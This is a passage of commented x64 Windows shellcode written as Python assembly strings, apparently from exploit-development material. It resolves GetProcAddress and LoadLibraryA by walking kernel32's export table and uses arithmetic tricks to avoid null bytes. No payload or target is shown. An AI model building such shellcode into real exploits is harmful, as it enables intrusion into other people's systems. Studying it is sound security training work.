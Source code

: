 ```
        "   add rdx, r8;"                   # Convert RVA of Export Address Table to absolute address by adding base address
        "   mov r10d, [rdx+0x14];"          # Load number of exported functions from Export Address Table
        "   xor r11, r11;"                  # Zero out R11 to use it as a clean register
        "   mov r11d, [rdx+0x20];"          # Get RVA of the AddressOfNames from the Export Address Table
        "   add r11, r8;"                   # Convert AddressOfNames RVA to absolute address by adding base address
        "   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
        "kernel32findfunction: "
        " jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
        "   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
        "   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
        "   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
        "   dec rcx;"                       # Decrement the loop counter
        "   mov rax, 0x41636f7250746547;"   # Load the ASCII value of 'AcorPteG' into RAX for comparison
        "   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'GetProcAddress'
        "   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
        "FunctionNameFound: "
        # Entry point after finding the target function name 'GetProcAddress'
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
        # Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
        "   inc rcx;"
        "   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
        # Preparing to fetch the actual function address from AddressOfFunctions
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
        "   mov eax, [r11+4+r13*4];"        # Fetch the function address RVA using the ordinal as an index
        "   add rax, r8;"                   # Convert function address RVA to absolute address
        "   mov r14, rax;"                  # Store the resolved function address in R14 for later use

        # The following assembly instructions are used to resolve LoadLibraryA using GetProcAddress
        "  mov ecx, 0x41797261; "           # Load part of the string 'LoadLibra' into ECX
        "  push rcx; "                      # Push the first half of the string onto the stack
        "  mov rcx, 0x7262694c64616f4c; "   # Load the remaining part of the string 'LoadLibrary' into RCX
        "  push rcx; "                      # Push the second half of the string onto the stack
        "  mov rdx, rsp; "                  # Set RDX to point to the string 'LoadLibraryA' on the stack
        "  mov rcx, r8; "                   # Copy the base address of the Kernel32 module into RCX
        # "  sub rsp, 0x30; "               # Allocate space on the stack to preserve context for the call (Null byte)
        # Null byte fix
        " xor r15, r15; "                   # Zero out r15 to start fresh
        " add r15, 0x30FFFFF; "             # Load r15 with a large number
        " shr r15, 0x14; "                  # Right-shift r15 by 20 bits to get 0x30
        " sub rsp, r15; "                   # Subtract 0x30 from rsp
```
